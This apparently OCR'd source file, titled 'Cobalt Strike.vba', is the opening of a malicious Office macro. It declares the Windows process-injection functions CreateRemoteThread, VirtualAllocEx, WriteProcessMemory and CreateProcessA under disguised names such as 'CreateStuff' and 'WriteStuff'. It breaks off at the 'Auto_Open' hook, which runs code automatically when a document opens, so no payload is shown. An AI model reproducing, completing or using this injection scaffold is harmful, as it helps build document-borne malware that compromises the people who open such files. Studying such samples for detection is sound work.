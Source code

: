 Cobalt Strike.vba

```bash
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
```